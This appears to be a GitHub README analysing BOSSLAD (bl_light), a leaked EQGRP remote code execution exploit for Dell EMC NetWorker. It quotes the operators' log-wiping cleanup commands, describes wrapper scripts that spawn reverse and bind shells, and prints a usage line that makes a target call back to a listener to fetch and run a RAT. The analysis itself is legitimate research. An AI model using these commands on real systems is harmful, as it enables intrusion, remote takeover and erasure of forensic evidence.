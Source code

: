 # BOSSLAD (LIGHT)

Remote Code Execution exploit for (Dell) EMC (Legato) NetWorker:

> ### when nsrexec is there but NOT with nsrstatd???

Googling `nsrexec` leads us to [the manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsrexec.html).

The mission notes also contain references to 'NSR' folders. These match with the default directories described in the [nsr_layout manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsr_layout.html):

```
### Cleanup
-ls /nsr/cores
-ls /nsr/cores/sh
-cat /nsr/cores/sh/*
rm /nsr/cores/sh/*
-rm /nsr/cores/sh
-touch SOMEFILE /nsr/cores

-ls /nsr/logs
-ls /nsr/logs/daemon.log
-get /nsr/logs/daemon.log
wc -l /nsr/logs/daemon.log
head -## /nsr/logs/daemon.log > n
-cat n
cat n > /nsr/logs/daemon.log
touch SOMEFILE /nsr/logs/daemon.log
```

Source: [user.mission.generic.COMMON.old](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1883-L1898)

## Files

* `bl_light`: The new `boss_lad` binary (`boss_lad` is in comments and being replaced by `bl_light`, for example in `bll.tnc.gr`).
* `bll.tnc.gr`: It will run `bl_light` with a long shell command that connects back and executes the file that is given to it on the callback. (That's why you need to run the `nc -l -p localPort < file2Xfer&Run.uu` before running it)
* `bll.perlbind.gr`: It will run `bl_light` with a long Perl command that will listen on the pwned host for connections (for BURNAT seconds). You can then connect to it via `nc` and it will give you a shell (RUN_WHAT).
* `bll.perlcallback.gr`: It will run `bl_light` with a long Perl command that will callback to the given IP and port. It will - of course - give you a shell when it calls back.
* `bll.telnet.gr`: It will run `bl_light` with a telnet command that will call back from the pwned host to give you a shell. Requires `doublet` (double telnet) to be run locally to receive the callback.



## How to use

Each of the four shell scripts contains a help menu but the notes contain an explicit example as well:
```
./bll.tnc.gr -i 66.128.32.67 -l 67.233.61.230 -p 24792 -f sendmail -D /tmp/.scsi
# On local machine with redirector:
./bll.tnc.gr -i 127.0.0.1 -l PITCH_IP -p NETCAT_PORT -f RAT_NAME -D /tmp/WORK_DIR
```
Source: [user.mission.generic.COMMON.old](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1862-L1874)

If you run it against a dummy netcat listener:
```
$ ./bl_light 127.0.0.1 "echo lol"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 12)
64 66 64 73 66 73 64 66 73 64 66 0a                dfdsfsdfsdf.

$ ./bl_light 127.0.0.1 "echo hello"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 6)
64 66 64 66 64 0a                                  dfdfd.
```

The "dfdsfsdfsdf" is what I type in netcat as answer to the exploit.

## Reverse Engineering bl_light

Since `bl_light` is ran "locally", it is not obfuscated and stripped and it can thus be reverse engineered without a lot of trouble. This is work in progress.

![Bosslad light on the wire](../assets/images/bl_light_pcap.png)

Note: there might be more happening after sending the exploit to the application but I was just listening with a dumb netcat. It's work in progress.

